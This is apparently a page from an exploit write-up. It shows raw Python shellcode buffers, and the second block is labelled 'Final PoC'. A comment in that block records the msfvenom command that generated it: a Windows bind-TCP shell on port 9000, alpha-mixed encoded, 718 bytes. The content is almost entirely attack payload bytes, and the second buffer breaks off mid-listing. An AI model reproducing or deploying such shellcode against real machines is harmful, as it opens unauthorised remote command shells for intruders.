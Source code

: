 ```terminal_session
buf += b"\x4b\x37\x62\x48\x6b\x6e\x6d\x71\x4d\x51\x78\x74\x73"
buf += b"\x76\x52\x43\x30\x37\x70\x73\x58\x54\x37\x64\x33\x30"
buf += b"\x32\x61\x4f\x70\x54\x33\x58\x30\x4c\x61\x67\x31\x36"
buf += b"\x66\x67\x69\x6f\x6e\x35\x78\x38\x4a\x30\x46\x61\x33"
buf += b"\x30\x77\x70\x74\x69\x6a\x64\x31\x44\x50\x50\x72\x48"
buf += b"\x66\x49\x6d\x50\x70\x6b\x75\x50\x4b\x4f\x6e\x35\x43"
buf += b"\x5a\x56\x68\x61\x49\x70\x50\x48\x62\x49\x6d\x61\x50"
buf += b"\x62\x70\x33\x70\x56\x30\x70\x68\x39\x7a\x44\x4f\x39"
buf += b"\x4f\x79\x70\x69\x6f\x4e\x35\x5a\x37\x43\x58\x64\x42"
buf += b"\x63\x30\x57\x53\x34\x68\x6c\x49\x5a\x46\x73\x5a\x46"
buf += b"\x70\x32\x76\x62\x77\x35\x38\x5a\x62\x49\x4b\x74\x77"
buf += b"\x50\x67\x4b\x4f\x48\x55\x66\x37\x31\x78\x4f\x47\x68"
buf += b"\x69\x67\x48\x39\x6f\x49\x6f\x69\x45\x53\x67\x62\x48"
buf += b"\x71\x64\x58\x6c\x65\x6b\x78\x61\x39\x6f\x6a\x75\x36"
buf += b"\x37\x6d\x47\x61\x78\x70\x75\x62\x4e\x70\x4d\x45\x31"
buf += b"\x69\x6f\x4e\x35\x71\x78\x43\x53\x70\x6d\x65\x34\x77"
buf += b"\x70\x6c\x49\x7a\x43\x62\x77\x66\x37\x70\x57\x34\x71"
buf += b"\x49\x66\x42\x4a\x44\x52\x53\x69\x50\x56\x58\x62\x4b"
buf += b"\x4d\x72\x46\x39\x57\x53\x74\x75\x74\x77\x4c\x65\x51"
buf += b"\x66\x61\x4e\x6d\x31\x54\x45\x74\x66\x70\x39\x56\x47"
buf += b"\x70\x70\x44\x71\x44\x42\x70\x32\x76\x72\x76\x56\x36"
buf += b"\x61\x56\x70\x56\x42\x6e\x32\x76\x73\x66\x32\x73\x73"
buf += b"\x66\x72\x48\x63\x49\x38\x4c\x47\x4f\x6d\x56\x59\x6f"
buf += b"\x39\x45\x4f\x79\x39\x70\x52\x6e\x71\x46\x51\x56\x49"
buf += b"\x6f\x50\x30\x45\x38\x57\x78\x6c\x47\x47\x6d\x51\x70"
buf += b"\x6b\x4f\x69\x45\x4f\x4b\x79\x70\x57\x6d\x66\x4a\x76"
buf += b"\x6a\x70\x68\x4d\x76\x7a\x35\x4f\x4d\x4f\x6d\x6b\x4f"
buf += b"\x6a\x75\x35\x6c\x64\x46\x33\x4c\x37\x7a\x6f\x70\x4b"
buf += b"\x4b\x59\x70\x50\x75\x43\x35\x4f\x4b\x63\x77\x67\x63"
buf += b"\x32\x52\x62\x4f\x33\x5a\x73\x30\x56\x33\x39\x6f\x7a"
buf += b"\x75\x41\x41"
```

Final PoC:

```terminal_session
import struct

# msfvenom -p windows/shell_bind_tcp LPORT=9000 -f py -e x86/alpha_mixed EXITFUNC=thread 
# Payload size: 718 bytes

buf =  b""
buf += b"\x89\xe1\xdd\xc5\xd9\x71\xf4\x5f\x57\x59\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43"
buf += b"\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41"
buf += b"\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42"
buf += b"\x58\x50\x38\x41\x42\x75\x4a\x49\x69\x6c\x49\x78\x6e"
buf += b"\x62\x67\x70\x57\x70\x63\x30\x31\x70\x6f\x79\x78\x65"
buf += b"\x56\x51\x6b\x70\x72\x44\x6e\x6b\x70\x50\x70\x30\x6c"
buf += b"\x4b\x43\x62\x44\x4c\x4e\x6b\x46\x32\x54\x54\x4c\x4b"
buf += b"\x30\x72\x55\x78\x36\x6f\x68\x37\x30\x4a\x67\x56\x36"
buf += b"\x51\x6b\x4f\x4c\x6c\x65\x6c\x50\x61\x63\x4c\x54\x42"
buf += b"\x74\x6c\x67\x50\x59\x51\x5a\x6f\x36\x6d\x56\x61\x68"
buf += b"\x47\x4a\x42\x6a\x52\x70\x52\x63\x67\x6e\x6b\x73\x62"
buf += b"\x46\x70\x4e\x6b\x63\x7a\x77\x4c\x6c\x4b\x72\x6c\x36"
buf += b"\x71\x30\x78\x48\x63\x53\x78\x37\x71\x5a\x71\x43\x61"
buf += b"\x4c\x4b\x72\x79\x37\x50\x66\x61\x4a\x73\x4c\x4b\x52"
buf += b"\x69\x45\x48\x58\x63\x54\x7a\x30\x49\x6c\x4b\x64\x74"
buf += b"\x6e\x6b\x77\x71\x78\x56\x36\x51\x49\x6f\x6c\x6c\x6f"
buf += b"\x31\x68\x4f\x36\x6d\x73\x31\x78\x47\x45\x68\x69\x70"
buf += b"\x42\x55\x6c\x36\x35\x53\x51\x6d\x5a\x58\x75\x6b\x63"
buf += b"\x4d\x36\x44\x31\x65\x58\x64\x63\x68\x4e\x6b\x32\x78"
buf += b"\x47\x54\x46\x61\x4e\x33\x70\x66\x4e\x6b\x66\x6c\x30"
buf += b"\x4b\x6e\x6b\x51\x48\x47\x6c\x75\x51\x6e\x33\x6e\x6b"
```